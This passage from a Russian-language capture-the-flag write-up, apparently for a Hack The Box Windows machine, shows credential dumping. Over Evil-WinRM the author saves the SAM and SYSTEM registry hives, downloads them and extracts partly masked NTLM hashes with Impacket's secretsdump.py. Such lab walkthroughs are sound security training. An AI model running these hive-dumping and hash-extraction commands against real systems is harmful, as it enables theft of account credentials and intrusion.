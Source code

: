 Создаем резервные копии.
`hklm\system` - это сокращение для **HKEY_LOCAL_MACHINE**, одного из основных разделов реестра **Windows**. Настоящее место нахождение этих файлов в `C:\Windows\System32\config`
```
*Evil-WinRM* PS C:\> reg save hklm\sam c:\Temp\sam.reg
The operation completed successfully.
```
```
*Evil-WinRM* PS C:\> reg save hklm\system c:\Temp\system.reg
The operation completed successfully.
```

Все прошло успешно, теперь, давайте установим их на наш хост
```
*Evil-WinRM* PS C:\Temp> ls

    Directory: C:\Temp

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         1/12/2025   3:28 PM          49152 sam.reg
-a----         1/12/2025   3:31 PM       18518016 system.reg
```
```
*Evil-WinRM* PS C:\Temp> download sam
                                        
Info: Downloading C:\Temp\sam to sam
                                        
Info: Download successful!
```
```
*Evil-WinRM* PS C:\Temp> download system
                                        
Info: Downloading C:\Temp\system to system
                                        
Info: Download successful!
```

Теперь, имея файлы **SAM.reg** и **SYSTEM.reg**, нам нужно извлечь хэши **NTLM** из учетных записей системы

**NTLM (New Technology LAN Manager)** — это семейство протоколов аутентификации, разработанных **Microsoft**, которые используются для обеспечения безопасности в **Windows-системах**.

Для извлечения **NTLM** хэшей, мы будем использовать **impacket**
```
Hexada@hexada ~/app/cicada.htb$ ls                                                                                                                                                         
Backup_script.ps1  cicada.txt  HR.txt  NetExecScript.py  SAM.reg  SYSTEM.reg
```
```
Hexada@hexada ~/app/cicada.htb$ secretsdump.py -sam SAM.reg -system SYSTEM.reg LOCAL > NTLM.txt
```
```
Hexada@hexada ~/app/cicada.htb$ cat NTLM.txt                                                                                                                                               
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581*****:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59*****:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59*****:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up...
```
